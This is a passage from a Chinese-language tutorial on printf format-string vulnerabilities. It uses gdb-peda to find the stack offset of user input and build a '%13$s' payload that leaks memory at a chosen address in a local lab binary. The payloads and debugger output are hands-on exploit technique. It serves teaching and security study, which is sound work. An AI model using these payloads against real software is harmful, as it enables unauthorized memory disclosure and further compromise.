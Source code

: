 通过这种方法，我们可以得到栈上的任意值。

#### 泄露任意地址内存

攻击者可以使用一个“显示指定地址的内存”的格式规范来查看任意地址的内存。例如，**使用 `%s` 显示参数指针所指定的地址的内存**，将它作为一个 ASCII 字符串处理，直到遇到一个空字符。如果攻击者能够操纵这个参数指针指向一个特定的地址，那么 `%s` 就会输出该位置的内存内容。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃**

第一步：printf处下断点，输入`AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`（类似于这种格式）测试，观察栈中的变化

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0xf7e50030 in printf () from /lib32/libc.so.6
gdb-peda$ x /20x $esp
0xffffcdfc:	0x08048517	0xffffce34	0x00000001	0x88888888
0xffffce0c:	0xffffffff	0xffffce2a	0xffffce34	0x080481fc
0xffffce1c:	0xffffce88	0xf7ffda74	0x00000001	0x42413490
0xffffce2c:	0x00004443	0x00000000	0x41414141	0x2e70252e
0xffffce3c:	0x252e7025	0x70252e70	0x2e70252e	0x252e7025
gdb-peda$ x /20wb 0xffffce34
0xffffce34:	0x41	0x41	0x41	0x41	0x2e	0x25	0x70	0x2e
0xffffce3c:	0x25	0x70	0x2e	0x25	0x70	0x2e	0x25	0x70
0xffffce44:	0x2e	0x25	0x70	0x2e
gdb-peda$ c
Continuing.
AAAA.0x1.0x88888888.0xffffffff.0xffffce2a.0xffffce34.0x80481fc.0xffffce88.0xf7ffda74.0x1.0x42413490.0x4443.(nil).0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
[Inferior 1 (process 56960) exited with code 012]

```

栈中的参数存储位置没有变，其中可以发现格式化字符串存储在0xffffce34，查看这个内存地址中的内容，可以发现正是我们格式化字符串的ASCII码。而按照格式化字符串的输出格式，格式化字符串的值在输出结果的第13个位置开始。即如果使用 `%13$s` 即可读出 `0x41414141` 处的内容（因为这里使用的%p测试，如果使用%s测试，0x41414141是一个不可解析地址）

第二步：根据上面可知，字符串ABCD存储在0xffffce2a，测试输出这个地址中的字符串内容

```
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python2 -c 'print("\x2a\xce\xff\xff"+".%13$s")' > text222
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 --> 0xffffce2a ("ABCD")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 --> 0xffffce2a ("ABCD")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

```